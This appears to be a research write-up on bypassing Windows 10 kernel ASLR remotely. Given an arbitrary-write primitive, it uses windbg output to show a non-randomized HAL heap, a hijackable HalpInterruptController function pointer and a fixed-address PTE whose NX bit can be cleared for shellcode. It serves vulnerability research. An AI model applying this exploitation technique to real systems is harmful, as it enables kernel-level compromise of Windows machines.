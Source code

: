 Bypass Kernel ASLR
Target : Windows 10 (remote bypass)
By @Eawhitehat
-----------------------------------------------------------------------------
Imagine, you can execute in remote (and you can repeat this action) :

MOVQ [RDI], RSI
You control RDI and RSI

Two questions :
 - Where do we write ?
 - What do we write ?

Don't forget, any access of unmapped memory causes a BSOD. (and Windows has an ASLR kernel since Windows 7)

Ok, lets go, is the ASLR on all modules ?

kd> lm
start end module
00007ff8`10ef0000 00007ff8`110a6000 ntdll
fffff800`1ace4000 fffff800`1acef000 kdcom
fffff800`1ae0f000 fffff800`1b5e3000 nt
fffff800`1b5e3000 fffff800`1b64d000 hal
fffff800`23c00000 fffff800`23c58000 msrpc
fffff800`23c60000 fffff800`23cb9000 FLTMGR
fffff800`23cc0000 fffff800`23ce0000 ksecdd
fffff800`23ce0000 fffff800`23cf3000 clipsp
fffff800`23d00000 fffff800`23dd2000 Wdf01000
fffff800`23de0000 fffff800`23df0000 WDFLDR
fffff800`23df0000 fffff800`23e0e000 acpiex
fffff800`23e20000 fffff800`23eaf000 ACPI
fffff800`23eb0000 fffff800`23eba000 WMILIB
fffff800`23ec0000 fffff800`23f4d000 cng
[...]
kd> lm
start end module
00007ffb`bf920000 00007ffb`bfad6000 ntdll
fffff801`ba400000 fffff801`ba458000 msrpc
fffff801`ba460000 fffff801`ba4b9000 FLTMGR
fffff801`ba4c0000 fffff801`ba4e0000 ksecdd
fffff801`ba4e0000 fffff801`ba4f3000 clipsp
fffff801`ba500000 fffff801`ba5d2000 Wdf01000
fffff801`ba5e0000 fffff801`ba5f0000 WDFLDR
fffff801`ba5f0000 fffff801`ba60e000 acpiex
fffff801`ba620000 fffff801`ba6af000 ACPI
fffff801`ba6b0000 fffff801`ba6ba000 WMILIB
fffff801`ba6c0000 fffff801`ba74d000 cng
fffff801`ba760000 fffff801`ba770000 pcw
fffff801`ba770000 fffff801`ba77a000 msisadrv
fffff801`ba780000 fffff801`ba7c9000 pci
[...]

As Windows 7 and 8 / 8.1, modules are randomized.

Undocumented extension command of windbg : !ptetree
The ptetree command lists all pages allocated for a process and pte2va translates a page table entry to the corresponding virtual address.

kd> !ptetree
[...]
fffff6fb7dbedff8 00000000001EF063 pfn 1ef ---DA--KWEV
 fffff6fb7dbffff8 00000000001EE063 pfn 1ee ---DA--KWEV
 fffff6fb7ffffff0 00000000001ED063 pfn 1ed ---DA--KWEV
 fffff6ffffffe800 0000000000100163 pfn 100 -G-DA--KWEV
 fffff6ffffffe808 0000000000105163 pfn 105 -G-DA—KWEV
[...]
kd> !pte2va FFFFF6FFFFFFE808
ffffffffffd01000

After some reboots, we can figure out that the page with
the ffffffff`ffd00000 address is not randomized.
What is this address ?

kd> !pte ffffffff`ffd00000
PXE at FFFFF6FB7DBEDFF8 [...] PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DD063 [...] contains 00000000002DF063 contains 8000000000001163
pfn 2dd ---DA--KWEV [...] ---DA--KWEV pfn 1 -G-DA--KWEV

windbg shows that the page rights are KWE (RWX) but if we look the containing data, the first bit is set.
So the NX protection is enabled and page is just RW.

Ho... wait ! 
The ffffffff`ffd00000 address reminds me something In october 2011
I published a paper on Windows 7 (32b) kernel ASLR bypass, and I used...
ffd00000 address space !

ffffffff`ffd00000 contains a lot of pointers to HAL.DLL

After a quick search in this DLL we can see :
.data:0000000080052028 HalpHeapStart dq 0FFFFFFFFFFD00000h ; DATA XREF: HalpUnmapVirtualAddress:loc_800156ECr

This is the << heap >> of HAL.
Now our objective is to redirect execution to the shellcode.

A global variable of HAL.DLL is really interesting,
HalpInterruptController.

kd> dq hal!HalpInterruptController L1
fffff800`c3c18990 ffffffff`ffd004b0

![Cat](https://i.imgur.com/rbDkvPL.png)

So we have a call *(ffffffff`ffd004b0+78)(...)
We can try to overwrite this qword and see.

kd> eq ffffffff`ffd004b0+78 4141414141414141
kd> g
KDTARGET: Refreshing KD connection
*** Fatal System Error: 0x0000003b

(0x00000000C0000005,0xFFFFF800C3BD69DB,0xFFFFD000206ACB50,0x000000000000
0000)
[...]
cs=0010 ss=0018 ds=002b es=002b fs=0053 gs=002b
efl=00010002
hal!HalRequestSoftwareInterrupt+0xbb:
fffff800`c3bd69db ffd0 call rax {41414141`41414141}
[...]

Shellcode time !

On windows all PTEs has a fixed address. If you want to access to the 0xffffffffffd00000 PTE you can read 0xFFFFF6FFFFFFE800.
!pte displays this information :

kd> !pte ffffffff`ffd00000
 VA ffffffffffd00000
PXE at FFFFF6FB7DBEDFF8 [...]PDE at FFFFF6FB7FFFFFF0 PTE at FFFFF6FFFFFFE800
contains 00000000002DE063 [...]contains 00000000002E0063 contains 8000000000001163
pfn 2de ---DA--KWEV [...]pfn 2e0 ---DA--KWEV pfn 1 -G-DA--KWEV
kd> dq FFFFF6FFFFFFE800
fffff6ff`ffffe800 80000000`00001163 80000000`00002163
fffff6ff`ffffe810 80000000`f00b007b 80000000`00003163
fffff6ff`ffffe820 80000000`00004163 00000000`00005101
fffff6ff`ffffe830 80000000`00006163 80000000`00007163
fffff6ff`ffffe840 80000000`00008123 80000000`0000b163
fffff6ff`ffffe850 80000000`00009163 80000000`0000a163
fffff6ff`ffffe860 80000000`0000d103 80000000`0000c163
fffff6ff`ffffe870 80000000`00070163 80000000`0000e163

ffffffff`ffd00000 space is full of codecaves, I took a random one, ffffffff`ffd035c0, but NX flag is set :-(
Remember, all PTE have a fixed address.
So, we can overwrite the NX flag of this address :-)

![Cat](https://i.imgur.com/1qgjTBW.png)

So... to remotely bypass kernel ASLR on Windows 10 you
just have to write a shellcode at ffffffff`ffd035c0 (or another
address) and disable the NX flag in the page table entry.
Write ffffffff`ffd035c0 at ffffffff`ffd00528 and... no more !
